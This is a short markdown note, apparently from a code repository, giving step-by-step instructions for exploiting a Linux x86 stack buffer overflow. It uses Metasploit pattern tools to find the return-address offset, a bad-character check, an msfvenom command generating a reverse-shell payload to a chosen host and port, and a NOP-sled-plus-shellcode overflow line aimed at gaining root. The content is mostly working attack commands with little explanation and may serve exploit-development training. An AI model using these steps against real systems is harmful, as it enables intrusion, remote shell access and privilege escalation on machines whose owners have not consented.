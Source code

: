 1. To determine the offset between buffer and return address (or eip). We can follow the below steps (tested on parrot OS):

	- `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 (or any number of overflow you have) > pattern.txt`
	
	- Copy the contents of pattern.txt
	
	- Using gdb `run $(python -c “print(‘<pattern.txt content>’)”)`
	
	- run `info registers eip`
	
	- `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <content of register eip>`

2. Finding bad characters for your system can be done by overflow \x00\x01...\xff and seeing which of them became \x00 in the stack. Repeatedly remove that character and see the next \x00.

	- use this command: `msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c –arch x86 –platform linux –bad-chars “<chars>” --out <filename>`

	- example: `msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c –arch x86 –platform linux –bad-chars “\x00\x09\x0a\x20” --out shellcode`
3. Overflow with ‘\x55’ * (total – shellcodesize – num_nops - 4) and ‘\x90’*num_nops
	- Go to stack and see the address of any \x90
	- Overflow with '\x55' * (total – shellcodesize – num_nops - 4) + ‘\x90’ * num_nops + shellcode + address of the nop instructions

	eg.: `run` `$(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')`

- Make sure not to do this in gdb but rather in command line. It might not give root access otherwise. Because gdb may not have root access itself.